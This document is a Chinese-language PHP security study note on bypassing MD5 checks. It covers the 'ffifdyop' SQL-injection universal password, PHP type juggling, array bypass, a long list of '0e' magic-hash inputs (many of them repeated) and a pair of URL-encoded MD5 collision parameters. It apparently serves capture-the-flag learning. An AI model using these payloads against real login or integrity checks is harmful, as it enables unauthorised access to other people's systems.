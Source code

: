 # PHP安全学习—MD5

Author: H3rmesk1t

# 绕过md5()来构造攻击语句
> 利用值：ffifdyop
```sql
select * from 'admin' where password = md5($pass,true)
```
> 这个点的原理是 `ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个通过十六进制转字符串的前几位刚好是 'or'6，而 Mysql 刚好又会吧 hex 转成 ascii 解释，因此拼接之后的形式是 `select * from 'admin' where password=''or'6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过 md5() 函数

# 数字与字符串之间的比较

<img src="./images/11.png" alt="">

> 上图中执行语句第一个返回的是 true ，第二个返回的是 false，因为 php 把字母开头的转化为整型时会转化为 0，前面数字后面字母的话就只取到第一个字母出现的位置之前 (如：intval('123abd45gf') 结果为 123)

# 数组绕过
> 数组绕过适用于源码中没有判断变量类型或内容，如果加上了过滤函数就不能使用了
> 常见过滤函数如下

```php
ctype_alnum ( string $text ) : bool
// 如果 text 中所有的字符全部是字母和(或者)数字，返回 TRUE 否则返回 FALSE 

is_numeric ( mixed $var ) : bool
// 如果 var 是数字和数字字符串则返回 TRUE，否则返回 FALSE
```

# 科学计数法绕过
> 绕过 `md5($val1) != md5($val2)`，它的原理为 0e 开头后面都是数字的字符串会被识别为科学记数法

```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
240610708 
0e462097431906509019562988736854
314282422 
0e990995504821699494520356953734
571579406 
0e972379832854295224118025748221
903251147 
0e174510503823932942361353209384
1110242161 
0e435874558488625891324861198103
1320830526 
0e912095958985483346995414060832
1586264293 
0e622743671155995737639662718498
2302756269 
0e250566888497473798724426794462
2427435592 
0e067696952328669732475498472343
2653531602 
0e877487522341544758028810610885
3293867441 
0e471001201303602543921144570260
3295421201 
0e703870333002232681239618856220
3465814713 
0e258631645650999664521705537122
3524854780 
0e507419062489887827087815735195
3908336290 
0e807624498959190415881248245271
4011627063 
0e485805687034439905938362701775
4775635065 
0e998212089946640967599450361168
4790555361 
0e643442214660994430134492464512
5432453531 
0e512318699085881630861890526097
5579679820 
0e877622011730221803461740184915
5585393579 
0e664357355382305805992765337023
6376552501 
0e165886706997482187870215578015
7124129977 
0e500007361044747804682122060876
7197546197 
0e915188576072469101457315675502
7656486157 
0e451569119711843337267091732412
QLTHNDT 
0e405967825401955372549139051580
QNKCDZO 
0e830400451993494058024219903391
EEIZDOI 
0e782601363539291779881938479162
TUFEPMC 
0e839407194569345277863905212547
UTIPEZQ 
0e382098788231234954670291303879
UYXFLOI 
0e552539585246568817348686838809
IHKFRNS 
0e256160682445802696926137988570
PJNPDWY 
0e291529052894702774557631701704
ABJIHVY 
0e755264355178451322893275696586
DQWRASX 
0e742373665639232907775599582643
DYAXWCA 
0e424759758842488633464374063001
GEGHBXL 
0e248776895502908863709684713578
GGHMVOE 
0e362766013028313274586933780773
GZECLQZ 
0e537612333747236407713628225676
NWWKITQ 
0e763082070976038347657360817689
NOOPCJF 
0e818888003657176127862245791911
MAUXXQC 
0e478478466848439040434801845361
MMHUWUV 
0e701732711630150438129209816536
```
> MD5 和双 MD5 以后的值都是 0e 开头的

```
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk
7r4lGXCH2Ksu2JNT3BYM
```

> 0e 开头的 md5 值也为 0e 开头：`0e215962017`

# md5 碰撞
> 利用 fastcoll 进行 md5 碰撞，生成两个字面值不同但 md5 相同的字符串

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        die("success!);
}

Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

# 拓展链接
> [链接地址1](https://binlep.github.io/2020/02/28/%E3%80%90Web%20%E7%AC%94%E8%AE%B0%E3%80%91md5%20%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)
> [链接地址2](https://blog.csdn.net/LYJ20010728/article/details/116779357)